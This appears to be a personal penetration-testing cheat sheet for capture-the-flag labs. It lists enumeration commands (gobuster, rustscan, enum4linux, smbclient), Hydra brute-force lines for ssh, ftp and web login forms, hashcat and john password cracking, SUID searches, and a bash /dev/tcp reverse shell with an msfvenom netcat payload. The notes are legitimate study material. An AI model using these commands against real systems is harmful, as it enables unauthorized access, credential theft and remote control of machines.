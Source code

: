 

## Bash stuff
### Throw a bunch of files into a script
`for f in files/*; do ./decrypt.sh "$f"; done`
Throw away bad stuff
`for f in files/*; do ./decrypt.sh "$f" 2>/dev/null | grep -v "Error: Failed to decrypt"; done`

# Git
View old contents of file
Find Hash
```
git log --oneline -- message.txt                                                                   
```

View file
```
git show b562f0b:message.txt   
```

# CLI
## rdp: 
`xfreerdp /u:{username} /p:{password} /v:{ip} /dynamic-resolution`
## netcat:
`nc -lvnp <PORT>`
- `-l`: Listen mode.
    
- `-v`: Verbose output (optional but recommended).
    
- `-n`: Disable DNS resolution (faster).
    
- `-p <PORT>`: Specify the port to listen on (e.g., `4444`).

Then
`bash -c 'bash -i >& /dev/tcp/<YOUR_IP>/<PORT> 0>&1'`
// Research more ways to connect
## Gobuster:
- Directories
```
gobuster dir -u http://ip:port -w /home/Dragon/Code/wordlists/fuzz_php_special.txt -t 100 --timeout 30s
```
```
gobuster dir -u http://ip:port -w /home/Dragon/Code/wordlists/robots.txt
```
- Sub Domains
`gobuster dns -d ip -w /home/Dragon/Code/wordlists/subdomain.txt`


## Rustscan:
`rustscan -a ip -r 1-65535 --ulimit 20000`

Target a specific port:
`rustscan -a ip -p port -- -A -sC`

## tcpdump
- listen {This starts a tcpdump listener, specifically listening for ICMP traffic, which pings operate on.}
`sudo tcpdump ip proto \\icmp -i tun0`

![[Pasted image 20250202160630.png]]

## metasploit
- netcat rev shell
`msfvenom -p cmd/unix/reverse_netcat lhost=10.8.30.74 lport=4444 R`
## Hydra:
`hydra -L /home/Dragon/Code/wordlists/rockyou.txt -p admin ip`

`hydra -l username -P /home/Dragon/Code/wordlists/rockyou.txt ssh://ip -V -I -t 64` 

`hydra -t 4 -l dale -P home/Dragon/Code/wordlists/rockyou.txt -vV ip ftp`

attacking an http form
`hydra -l admin -P wordlist.txt 10.103.203.58 http-post-form "/login:username=^USER^&password=^PASS^:RESONSE TEXT INDICATING BAD"
`
-t 4                    Number of parallel connections per target  
-l [user]               Points to the user who's account you're trying to compromise  
-P [path to dictionary] Points to the file containing the list of possible passwords  
-vV                     Sets verbose mode to very verbose, shows the login+pass combination for                             each attempt
## ffuf
`ffuf -u ip../FUZZ.fileExtension -w /home/Dragon/Code/wordlists/raft-small-words.txt`
- Note: run in full screen

- Post form
`hydra -l username -P /home/Dragon/Code/wordlists/rockyou.txt lookup.thm http-post-form "/login:username=^USER^&password=^PASS^F:wrong password" -V -I -t 64`


## Hashcat
- cd in location of pswd list
`hashcat --stdout -r /home/Dragon/Code/wordlists/hashcat_rules/best64.rule password_list.txt > mutated_passwords.txt`

https://hashcat.net/wiki/doku.php?id=example_hashes

Hash cracking


# John
extract hash pw from zip:
`zip2john secret.zip > ziphash.txt`

`john --wordlist=/home/Dragon/Code/wordlists/rockyou.txt ziphash.txt`

## Enum4linux

`enum4linux -h` : Manual

```
enum4linux -U -o 192.168.1.200
```
**TAG**            **FUNCTION**  
- U            get userlist  
- M            get machine list  
- N             get namelist dump (different from -U and-M)  
- S             get sharelist  
- P             get password policy information  
- G             get group and member list
- a             all of the above (full basic enumeration)

### SMB client 
`smbclient //[IP]/[SHARE]`

Followed by the tags:

-U [name] : to specify the user

-p [port] : to specify the port

more "filename" to cat

## NFS
- get shares
`/usr/sbin/showmount -e ip`
- mount
sudo mount -t nfs ip:share /mnt -nolock
## General:
`find / -name "*flag*" 2>/dev/null`
`find / -perm -u=s -type f 2>/dev/null`
`sudo find / -type d -name 'dirName'`

# Intel gathering
SUUID
`find / -perm -u=s -type f 2>/dev/null`
`find /usr/bin /usr/sbin /bin /sbin -perm -u=s -type f 2>/dev/null`



# Notes:
## ssh with RSA
Use private key
Do: chmod 600 filename
Then: 
	ssh -i  rsaprivefilename user@ip


# Pics
- telnet
![[Pasted image 20250202161214.png]]
